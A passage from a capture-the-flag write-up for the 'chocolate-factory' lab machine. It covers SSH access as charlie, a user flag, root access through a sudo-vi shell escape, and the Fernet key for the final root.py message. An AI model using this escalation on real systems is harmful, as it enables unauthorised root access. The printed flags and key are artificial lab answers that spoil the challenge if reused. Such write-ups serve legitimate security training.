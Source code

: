 There we go, let's get the key and go into ssh as Charlie:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408132847.png)

We can read `user.txt` now:

```
charlie@chocolate-factory:/home/charlie$ cat user.txt
flag{cd5509042371b34e4826e4838b522d2e}
```

We can see this if we use `sudo -l`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408133050.png)

We got sudo permissions at `/usr/bin/vi`, let's check gtfobins:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408133125.png)

So, we can simply do this:

```
sudo /usr/bin/vi -c ':!/bin/bash' /dev/null
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408133155.png)

There we go, we got root access, let's read `root.txt`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408133322.png)

There's no `root.txt`, weird, let's check the contents of the root directory:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408133343.png)

There's something called `root.py`, if we take a look at it, we can see this code:

```python
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
```

We can simply enter the key we got from earlier:

```
-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
```
